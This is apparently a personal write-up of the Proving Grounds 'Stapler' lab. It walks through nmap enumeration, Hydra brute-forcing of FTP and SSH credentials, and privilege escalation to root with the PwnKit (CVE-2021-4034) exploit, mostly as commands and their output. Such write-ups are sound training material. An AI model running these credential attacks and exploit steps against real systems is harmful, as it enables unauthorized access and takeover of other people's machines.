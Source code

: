 Running our autonmap script, we see FTP has login with FTP username

```
Running all scans on 192.168.217.148

No ping detected.. Will not use ping scans!

Host is likely running Unknown OS!

---------------------Starting Port Scan-----------------------

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
139/tcp  open  netbios-ssn
666/tcp  open  doom
3306/tcp open  mysql

---------------------Starting Script Scan-----------------------

PORT     STATE SERVICE        VERSION
21/tcp   open  ftp            vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh            OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
|   256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
|_  256 6d:01:b7:73:ac:b0:93:6f:fa:b9:89:e6:ae:3c:ab:d3 (ED25519)
53/tcp   open  tcpwrapped
80/tcp   open  http           PHP cli server 5.5 or later
|_http-title: 404 Not Found
3306/tcp open  mysql          MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 10
|   Capabilities flags: 63487
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, ODBCClient, Speaks41ProtocolNew, SupportsLoadDataLocal, Speaks41ProtocolOld, Support41Auth, FoundRows, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, LongPassword, ConnectWithDatabase, LongColumnFlag, SupportsTransactions, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: @"PL~g\x086\x12z4+{VC\x15u\x03f\x14
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: RED; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED\x00
|   Domain name: \x00
|   FQDN: red
|_  System time: 2024-02-26T04:56:31+00:00
| smb2-time: 
|   date: 2024-02-26T04:56:31
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: RED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Login to FTP with Filezilla
![[Pasted image 20240226104508.png]]

It has one file
![[Pasted image 20240226104539.png]]

Grab this and let's see what it says
![[Pasted image 20240226104627.png]]

Throw those into a list
```
┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Stapler]
└─$ echo 'elly' > ftp_users                                    
                                                                                                                       
┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Stapler]
└─$ echo 'john' >> ftp_users
                                                                                                                       
┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Stapler]
└─$ cat ftp_users                      
elly
john
```

Use Hydra to check if it's brute forceable - use the -e nsr (-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login)
```
└─$ hydra -L ftp_users -e nsr ftp://192.168.250.148
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 10:48:35
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:2/p:3), ~1 try per task
[DATA] attacking ftp://192.168.250.148:21/
[21][ftp] host: 192.168.250.148   login: elly   password: ylle
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 10:48:39
```

Login to the FTP again with elly
![[Pasted image 20240226105001.png]]

Download the /etc/passwd file
Separate the names
```
└─$ cat names 
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-timesync
systemd-network
systemd-resolve
systemd-bus-proxy
syslog
_apt
lxd
dnsmasq
messagebus
sshd
peter
mysql
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
postfix
ftp
elly
```

Try what we did again with Hydra
`hydra -L names -e nsr ssh://192.168.217.148 

We get a hit
`[22][ssh] host: 192.168.250.148   login: SHayslett   password: SHayslett`

Transfer lse_cve.sh over and run it

We see it's vulnerable to PwnKit
`[!] cve-2021-4034 Checking for PwnKit vulnerability........................ yes!`

Get an error when trying to run PwnKit
`SHayslett@red:/tmp/PwnKit-main$ chmod +x PwnKit.sh`
`SHayslett@red:/tmp/PwnKit-main$ ./PwnKit.sh`
`./PwnKit.sh: line 4: ./PwnKit: cannot execute binary file: Exec format error`

`SHayslett@red:/tmp/PwnKit-main$ uname -m`
`i686`

It's only 32 bit so we need the 32 bit PwnKit
`SHayslett@red:/tmp$ unzip PwnKit-main.zip`
`Archive:  PwnKit-main.zip`
`1923ad7b438ae82eaa2162e15a1e1b810712e54e`
   `creating: PwnKit-main/`
  `inflating: PwnKit-main/LICENSE`     
  `inflating: PwnKit-main/Makefile`    
  `inflating: PwnKit-main/PwnKit`      
  `inflating: PwnKit-main/PwnKit.c`    
  `inflating: PwnKit-main/PwnKit.sh`   
  `inflating: PwnKit-main/PwnKit32`    
  `inflating: PwnKit-main/README.md`   
   `creating: PwnKit-main/imgs/`
  `inflating: PwnKit-main/imgs/exploit.png`  
  `inflating: PwnKit-main/imgs/oneliner.png`  
  `inflating: PwnKit-main/imgs/patched.png`

Running the 32 bit PwnKit we get root
`SHayslett@red:/tmp/PwnKit-main$ ./PwnKit32`
`root@red:/tmp/PwnKit-main#` 

Grab the flags
`root@red:/tmp/PwnKit-main# cat /root/proof.txt`
`1a3a2de791ed4ec4425a48232abbf075`
`root@red:/tmp/PwnKit-main# find / -name local.txt 2>/dev/null`
`/home/local.txt`
`root@red:/tmp/PwnKit-main# cat /home/local.txt`
`0fffda1c8b824001ad851dcb365d4c77`
